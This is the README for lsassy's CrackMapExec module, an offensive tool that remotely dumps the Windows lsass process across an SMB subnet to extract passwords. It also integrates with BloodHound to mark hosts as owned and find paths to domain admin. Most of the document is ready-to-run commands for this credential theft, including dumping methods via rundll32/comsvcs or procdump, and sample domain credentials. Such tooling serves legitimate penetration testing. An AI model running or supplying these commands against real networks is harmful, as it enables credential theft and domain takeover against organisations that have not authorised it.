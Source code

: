 # lsassy CrackMapExec Module

![CrackMapExec >= 4.0.1](https://img.shields.io/badge/CrackMapExec-%3E=4.0.1-red)

This CME module uses **lsassy** to remotely extract lsass password, and optionally interacts with Bloodhound to **set compromised hosts as owned** and check if compromised users have a **path to domain admin**.

![CME Module example](https://github.com/Hackndo/lsassy/assets/example.png)

## Requirements

* Python2.7
  - [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
* Python3.6+
  - [lsassy](https://github.com/Hackndo/lsassy/)


## Installation

* Clone git repo

From SSH: (Need Github account with ssh key)
```bash
git clone git@github.com:Hackndo/lsassy.git
```
From Https: (Without Github account)
```bash
git clone https://github.com/Hackndo/lsassy.git
```

* Copy `lsassy.py` in `[CrackMapExec Path]/cme/modules`
* Reinstall CrackMapExec using python2.7 `python setup.py install`

```bash
cd lsassy/cme
cp lsassy.py /opt/CrackMapExec/cme/modules/
cd /opt/CrackMapExec
python setup.py install
```

## Usage

### Basic

```bash
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy
```

### Advanced

By default, this module uses rundll32.exe with comsvcs.dll DLL to dump lsass process on the remote host, with method "1" of lsassy.

If you want to specify the dumping method, use the `METHOD` option (`lsassy -h` for more details)

```bash
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy -o METHOD=2 PROCDUMP_PATH=/opt/Sysinternals/procdump.exe
```

If you're using a method that requires procdump, you can specify procdump location with `PROCDUMP_PATH` option.

```bash
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy -o METHOD=3 PROCDUMP_PATH=/opt/Sysinternals/procdump.exe
```

By default, lsass dump name is randomly generated. If you want to specify a dump name, you can use `REMOTE_LSASS_DUMP` option.

```bash
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy -o REMOTE_LSASS_DUMP=LSASSY_DUMP.dmp
```

### BloodHound

You can set BloodHound integration using `-o BLOODHOUND=True` flag. This flag enables different checks :
* Set "owned" on BloodHound computer nodes that are compromised
* Detect compromised users that have a **path to domain admin**

```bash
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy -o BLOODHOUND=True
```

You can check available options using

```
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy --options
[*] lsassy module options:

            METHOD              Method to use to dump procdump with lsassy. See lsassy -h for more details
            REMOTE_LSASS_DUMP   Name of the remote lsass dump (default: Random)
            PROCDUMP_PATH       Path to procdump on attacker host. If this is not set, "rundll32" method is used
            BLOODHOUND          Enable Bloodhound integration (default: false)
            NEO4JURI            URI for Neo4j database (default: 127.0.0.1)
            NEO4JPORT           Listeninfg port for Neo4j database (default: 7687)
            NEO4JUSER           Username for Neo4j database (default: 'neo4j')
            NEO4JPASS           Password for Neo4j database (default: 'neo4j')
            WITHOUT_EDGES       List of black listed edges (example: 'SQLAdmin,CanRDP', default: '')

```

## Issue

If you find an issue with this tool (that's very plausible !), please

* Check that you're using the latest version
* Send as much details as possible.
    - For standalone **lsassy**, please use the `-d` debug flag
    - For CME module, please use CrackMapExec `--verbose` flag

Have fun
